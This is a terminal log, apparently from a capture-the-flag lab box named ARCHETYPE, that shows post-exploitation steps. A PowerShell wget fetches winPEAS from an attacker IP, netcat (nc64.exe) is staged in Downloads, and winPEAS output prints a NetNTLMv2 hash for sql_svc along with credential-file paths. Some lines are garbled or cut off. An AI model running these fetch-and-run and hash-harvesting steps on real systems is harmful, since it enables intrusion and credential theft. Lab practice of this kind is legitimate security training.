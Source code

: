 User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sql_svc                  WDAGUtilityAccount       
The command completed successfully.


C:\Windows\system32>powershell

PS C:\Users\sql_svc\Downloads> wget http://10.10.165/winPEASx64.exe -outfile winPEASx64.exe
wget http://10.10.165/winPEASx64.exe -outfile winPEASx64.exe
wget : Unable to connect to the remote server
At line:1 char:1
+ wget http://10.10.165/winPEASx64.exe -outfile winPEASx64.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebExc 
   eption
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
 
PS C:\Users\sql_svc\Downloads> wget http://10.10.15.165/winPEASx64.exe -outfile winPEASx64.exe
wget http://10.10.15.165/winPEASx64.exe -outfile winPEASx64.exe
PS C:\Users\sql_svc\Downloads> dir
dir


    Directory: C:\Users\sql_svc\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/14/2022   1:55 PM          45272 nc64.exe                                                              
-a----        5/14/2022   1:52 PM              6 tt.txt                                                                
-a----        5/14/2022   2:11 PM        1930752 winPEASx64.exe                                                        


PS C:\Users\sql_svc\Downloads> winPEASx64.exe
winPEASx64.exe
winPEASx64.exe : The term 'winPEASx64.exe' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 


����������͹ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    sql_svc::ARCHETYPE:1122334455667788:fd31b116f690af568c52c822bc8da410:0101000000000000fac217c6d867d8010a31a987db6d20d8000000000800300030000000000000000000000000300000bfefed9e745e30b1e1743b4eec17a69e7888002d3e3005f5f24560ad031054710a00100000000000000000000000000000000000090000000000000000000000   


����������͹ Analyzing Windows Files Files (limit 70)
    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\sql_svc\NTUSER.DAT
